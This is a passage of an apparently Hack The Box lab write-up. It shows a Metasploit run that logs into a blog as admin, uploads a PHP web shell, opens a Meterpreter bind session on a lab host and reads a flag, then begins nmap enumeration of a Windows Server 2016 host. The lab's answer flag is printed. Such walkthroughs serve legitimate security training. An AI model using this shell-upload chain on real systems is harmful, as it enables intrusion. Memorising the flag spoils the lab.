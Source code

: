 ```

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST  172.16.1.12      no        The target address


Exploit target:

   Id  Name
   --  ----
   0   PHP payload
   
msf6 exploit(50064) > run

[*] Got CSRF token: e3f6ebfd4a
[*] Logging into the blog...
[+] Successfully logged in with admin
[*] Uploading shell...
[+] Shell uploaded as data/i/4Gei.php
[+] Payload successfully triggered !
[*] Started bind TCP handler against 172.16.1.12:4444
[*] Sending stage (39282 bytes) to 172.16.1.12
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.16.1.12:4444) at 2024-05-09 09:56:57 -0400

meterpreter > cat /customscripts/flag.txt
B1nD_Shells_r_cool
meterpreter > 
```

> The asnwer is : **B1nD_Shells_r_cool**


---

## Host 3

### Enumeration

```
[✗]─[htb-student@skills-foothold]─[~]
└──╼ $sudo nmap -sCV -O -Pn --disable-arp-ping 172.16.1.13
[sudo] password for htb-student: 
Starting Nmap 7.92 ( https://nmap.org ) at 2024-05-09 10:49 EDT
Nmap scan report for 172.16.1.13
Host is up (0.012s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 172.16.1.13 - /
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
MAC Address: 00:50:56:B9:EB:EA (VMware)
Device type: general purpose
Running: Microsoft Windows 2016
OS CPE: cpe:/o:microsoft:windows_server_2016
OS details: Microsoft Windows Server 2016 build 10586 - 14393
Network Distance: 1 hop
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

```